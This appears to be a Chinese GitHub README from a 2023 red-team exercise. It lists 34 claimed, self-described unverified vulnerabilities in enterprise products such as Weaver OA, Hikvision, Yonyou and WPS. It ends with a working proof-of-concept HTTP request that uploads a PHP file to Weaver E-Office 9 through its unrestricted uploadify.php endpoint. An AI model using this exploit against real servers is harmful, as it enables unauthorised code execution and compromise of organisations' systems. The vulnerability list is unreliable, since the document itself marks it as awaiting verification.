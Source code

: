 # 2023HW

## 序号 更新时间 漏洞名称(待验证)
1 2023/8/9 深信服应用交付系统命令执行

2 2023/8/9 协同办公文档（DzzOfffice）未授权访问

3 2023/8/9 泛微OA前台代码执行漏洞

4 2023/8/9 泛微oa进后台漏洞

5 2023/8/9 ucloud的未授权获取任意用户cookie

6 2023/8/9 飞书客户端RCE漏洞

7 2023/8/9 泛微Eoffice V10前台RCE

8 2023/8/9 来客推商城任意文件上传

9 2023/8/9 天玥堡垒机0day

10 2023/8/9 明御运维审计与风险控制系统堡垒机任意用户注册

11 2023/8/9 XX协同管理系统存在SQL注入

12 2023/8/9 泛微emobile 注入漏洞

13 2023/8/9 海康威视综合安防前台文件上传漏洞

14 2023/8/9 蓝凌OA前台代码执行漏洞

15 2023/8/9 致远M3Server-xxxx反序列化漏洞

16 2023/8/9 致远A8 V8 SP1 SP2文件上传漏洞

17 2023/8/9 普元EOS前台代码执行漏洞

18 2023/8/9 泛微E-cology后台文件上传漏洞

19 2023/8/9 泛微E-Mobile任意用户登录

20 2023/8/9 泛微E-Office10信息泄露后台+后台文件上传漏洞

21 2023/8/9 契约锁电子签章系统RCE

22 2023/8/9 亿赛通电子文档平台文件上传漏洞

23 2023/8/9 Idocview命令执行漏洞

24 2023/8/9 jeesite代码执行漏洞

25 2023/8/9 LiveBOS文件上传漏洞

26 2023/8/9 用友nc-cloud-任意文件写入

27 2023/8/9 奇安信VPN PWN

28 2023/8/9 xx IOA PWN

29 2023/8/9 xxx准入 PWN

30 2023/8/9 eoffice9 前台文件包含

31 2023/8/9 泛微 E-Cology ifNewsCheckOutByCurrentUser SQL注入漏洞

32 2023/8/9 fastjson版本<2.0.27存在高危反序列化漏洞

33 2023/8/9 WPS 0day

34 2023/8/9 帆软channel序列化

## fanwei OA EXP

描述和影响范围

Weaver E-Office9版本存在代码问题漏洞，该漏洞源于文件/inc/jquery/uploadify/uploadify.php存在问题，对参数Filedata的操作会导致不受限制的上传。
Weaver E-Office9.0
POC or EXP


```POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 192.168.232.137:8082
User-Agent: test
Connection: close
Content-Length: 493
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85

--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
Content-Disposition: form-data; name="Filedata"; filename="666.php"
Content-Type: application/octet-stream

<?php phpinfo();?>

--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--
--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream

--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--```
